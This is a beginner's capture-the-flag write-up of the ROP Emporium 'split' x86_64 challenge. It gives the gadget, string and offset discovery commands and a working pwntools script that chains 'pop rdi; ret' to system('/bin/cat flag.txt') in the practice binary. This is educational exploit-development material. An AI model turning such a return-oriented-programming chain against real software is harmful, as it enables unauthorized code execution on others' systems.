










# Day 29: ROP Emporium split x86_64 Writeup

A simple beginner writeup for the ROP Emporium split x86_64 challenge, showing how to use a small trick to run "/bin/cat flag.txt" and get the flag.

For Day 29, we are doing **split** from ROP Emporium, x86_64.



After doing `ret2win`, I was feeling slightly less lost.

Not confident.

Just slightly less like I was reading ancient cursed assembly written on a wall.

The challenge description basically says that the useful string:

```text
/bin/cat flag.txt
```

is already inside the binary, and there is also a call to `system()`.

So the challenge is kind of telling us:

```text
The string is here.
system() is here.
Now figure out how to connect them.
```

That sounded simple.

Which is usually when pwn starts preparing emotional damage.

## Checking the File

Like usual, I first checked what kind of file the binary was:

```bash
file split
```



This showed that `split` is an:

```text
ELF 64-bit LSB executable
```

My beginner understanding:

```text
ELF    -> Linux executable
64-bit -> addresses are 8 bytes
LSB    -> little-endian
```

So this is another x86_64 binary, which means I need to think about `RIP`, 64-bit addresses, and `p64()` again.

Wonderful.

## Running the Program

Then I ran the program:

```bash
./split
```

It printed:

```text
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
```

So naturally, I hit it with my mythical power of A’s.



The program replied:

```text
Thank you!

Exiting.
```

Interesting.

This time, my holy spam of A’s did not immediately cause visible chaos.

The program just said thank you and exited like I gave it a polite greeting instead of trying to ruin its life.

At this point, I assumed one of two things:

```text
1. I did not send enough input to visibly crash it.
2. The overflow exists, but I need to inspect it properly.
```

Since this is ROP Emporium, I already expected the overflow to be there.

I just needed to stop being dramatic and collect the pieces.

## Checking Protections

The challenge description mentioned NX, so I checked the protections:

```bash
pwn checksec split
```



The important parts were:

```text
NX enabled
No canary
No PIE
```

My understanding was:

```text
NX enabled
```

The stack is not executable, so I should not try to place shellcode on the stack and run it.

```text
No canary
```

There is no stack canary, so overflowing the stack should be easier.

```text
No PIE
```

The binary addresses should stay fixed. So if I find a useful address locally, it should stay the same when I run the binary again.

This already made the plan clearer.

This is not a shellcode challenge.

This is a “reuse what already exists inside the binary” challenge.

That is basically the whole ROP idea, from what I understand so far.

## What We Need to Do

The challenge already told us that the string exists:

```text
/bin/cat flag.txt
```

and that `system()` is available.

So the goal is:

```c
system("/bin/cat flag.txt");
```

But this is where `split` becomes different from `ret2win`.

In `ret2win`, I mostly had to jump into one function.

Here, I need to call a function **with an argument**.

That is the new annoying part.

Since this is x86_64, the first argument to a function goes into the `RDI` register.

I am not going to pretend I fully understand every calling convention detail yet.

But for this challenge, the useful thing to remember is:

```text
First argument -> RDI
```

So for:

```c
system("/bin/cat flag.txt");
```

I need:

```text
RDI = address of "/bin/cat flag.txt"
RIP = address of system()
```

So the ROP chain should look like:

```text
pop rdi; ret
address of "/bin/cat flag.txt"
system()
```

My beginner translation:

```text
pop rdi; ret  -> put the next value into RDI
string address -> becomes system()'s argument
system()       -> runs system("/bin/cat flag.txt")
```

So I needed to find:

```text
1. Offset to RIP
2. Address of "/bin/cat flag.txt"
3. Address of system()
4. A pop rdi; ret gadget
```

Yes, I said I needed “a few things” and suddenly the list became four.

This is why I do not do pwn after midnight.

## Finding the Useful String

First, I searched for the string mentioned in the challenge.

ROP Emporium suggested `rabin2`, so I used:

```bash
rabin2 -z split | grep "/bin/cat"
```



This showed the string and its address:

```text
0x601060
```

So now I had:

```text
/bin/cat flag.txt = 0x601060
```

If `rabin2` is not available, I could also check the string with:

```bash
strings -a split | grep "/bin/cat"
```

But `strings` mostly confirms the string exists.

`rabin2` is more useful here because it gives the address too.

And in this challenge, the address is the part I actually need.

## Finding system()

Next, I checked for `system()`.

```bash
objdump -d split | grep system
```



This showed:

```text
0000000000400560 <system@plt>
```

So now I had:

```text
system@plt = 0x400560
```

The `@plt` part confused me at first.

My simple understanding is:

```text
system@plt is the address inside the binary that lets me call system().
```

I am not going deep into PLT/GOT yet because my brain is still trying to survive basic ROP.

For now, I just needed this address as the function I want to call.

## Finding pop rdi; ret

Now I had the string address and the `system()` address.

But I still needed a way to put the string address into `RDI`.

For that, I needed this gadget:

```asm
pop rdi; ret
```

I searched for it with:

```bash
ROPgadget --binary split | grep "pop rdi"
```



It gave me:

```text
0x00000000004007c3 : pop rdi ; ret
```

So now the important pieces were:

```text
/bin/cat flag.txt = 0x601060
system@plt        = 0x400560
pop rdi; ret      = 0x4007c3
```

This was the first time the challenge started looking like a proper ROP chain instead of just “jump to one function and pray.”

## Finding the Offset

I still needed the offset to reach the saved return address.

The normal A’s earlier did not show much, so instead of guessing, I used a cyclic pattern.

Since this is 64-bit, I used `-n 8`:

```bash
pwn cyclic -n 8 100 > pattern.txt
```

Then I opened the binary with pwndbg:

```bash
pwndbg ./split
```

Inside pwndbg, I ran the program with the pattern:

```gdb
run < pattern.txt
```



This time it crashed properly.

In 64-bit, I checked around the stack because the overwritten return address is usually around where `RSP` points after the crash.

```gdb
x/gx $rsp
```

I saw a cyclic-looking value on the stack.

So I copied that value and asked pwntools where it appeared in the pattern:

```bash
pwn cyclic -n 8 -l 0x6161616161616166
```



It returned:

```text
40
```

So now I knew:

```text
offset = 40
```

That means 40 bytes are needed before I reach the saved return address.

At this point, the chain looked like this:

```text
"A" * 40
pop rdi; ret
address of "/bin/cat flag.txt"
system@plt
```

In human language:

```text
Fill the buffer until RIP.
Use pop rdi; ret to control RDI.
Put the string address into RDI.
Call system().
system("/bin/cat flag.txt") prints the flag.
```

At least, that was the plan.

And in pwn, “that was the plan” usually means something is about to segfault.

## Writing the Exploit

Now it was time to turn the chain into a script.

```bash
nano exploit.py
```

I wrote this:

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./split")
context.binary = elf

offset = 40

rop = ROP(elf)
ret = rop.find_gadget(["ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]

bin_cat = next(elf.search(b"/bin/cat flag.txt"))
system = elf.plt["system"]

payload = flat(
    b"A" * offset,
    ret,
    pop_rdi,
    bin_cat,
    system
)

p = process(elf.path)
p.sendlineafter(b">", payload)
p.interactive()
```

Now let me break down the parts.

```python
elf = ELF("./split")
```

This loads the binary in pwntools.

```python
context.binary = elf
```

This tells pwntools what binary I am working with.

```python
offset = 40
```

This is the number of bytes needed to reach the saved return address.

```python
rop = ROP(elf)
```

This lets pwntools search for gadgets inside the binary.

```python
ret = rop.find_gadget(["ret"])[0]
```

This finds a plain `ret` gadget.

I added this mostly because x86_64 stack alignment can sometimes be annoying. I do not fully understand all the ABI details yet, but from the previous challenge I learned that one extra `ret` can help keep the stack aligned before calling functions like `system()`.

If the exploit works without it, fine.

I kept it because my trust issues are now part of the payload.

```python
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
```

This finds the gadget that lets me control `RDI`.

That matters because `RDI` holds the first argument to a function in x86_64.

```python
bin_cat = next(elf.search(b"/bin/cat flag.txt"))
```

This searches the binary for the string:

```text
/bin/cat flag.txt
```

and gets its address.

So I do not need to hardcode:

```text
0x601060
```

```python
system = elf.plt["system"]
```

This gets the PLT address for `system()`.

So I do not need to hardcode:

```text
0x400560
```

## Understanding the Payload

The payload is the important part:

```python
payload = flat(
    b"A" * offset,
    ret,
    pop_rdi,
    bin_cat,
    system
)
```

`flat()` from pwntools packs everything nicely into bytes.

The chain means:

```text
b"A" * offset
```

Fill 40 bytes until the saved return address.

```text
ret
```

Optional alignment gadget.

This is there to stop x86_64 from getting angry before `system()`.

```text
pop_rdi
```

Jump to the gadget that puts the next stack value into `RDI`.

```text
bin_cat
```

This becomes the value placed into `RDI`.

So now:

```text
RDI = address of "/bin/cat flag.txt"
```

```text
system
```

Call `system()`.

Since `RDI` already points to the string, this becomes:

```c
system("/bin/cat flag.txt");
```

That is the actual magic.

Not wizard magic.

More like “I barely understand the wand but it produced fire” magic.

## Running the Exploit

Then I ran it:

```bash
python3 exploit.py
```



And it printed the flag:

```text
ROPE{a_placeholder_32byte_flag!}
```

So the chain worked.

The binary called:

```c
system("/bin/cat flag.txt");
```

and the flag came out.

## Final Logic

The challenge came down to this:

```text
Find the offset.
Find the useful string.
Find system().
Find pop rdi; ret.
Build system("/bin/cat flag.txt").
```

The final ROP chain was:

```text
"A" * 40
ret
pop rdi; ret
"/bin/cat flag.txt"
system()
```

Or without the optional alignment `ret`, the core idea is:

```text
pop rdi; ret
"/bin/cat flag.txt"
system()
```

## Closing Thoughts

`split` felt like the next step after `ret2win`.

In `ret2win`, I only had to redirect execution to one useful function.

Here, I had to pass an argument to a function.

That small change made it feel much more like actual ROP.

Not advanced ROP.

Not “I understand everything now” ROP.

More like baby ROP with training wheels and a helmet.

The biggest thing I learned was:

```text
In x86_64, the first function argument goes into RDI.
```

So if I want:

```c
system("/bin/cat flag.txt");
```

I need to first put the string address into `RDI`, then call `system()`.

That is why this chain works:

```text
pop rdi; ret
"/bin/cat flag.txt"
system()
```

Not a massive ROP chain yet.

Just a few links.

But those few links were enough to make the flag fall out.

And honestly, at this stage, I will take any flag that falls out without asking me to understand libc.

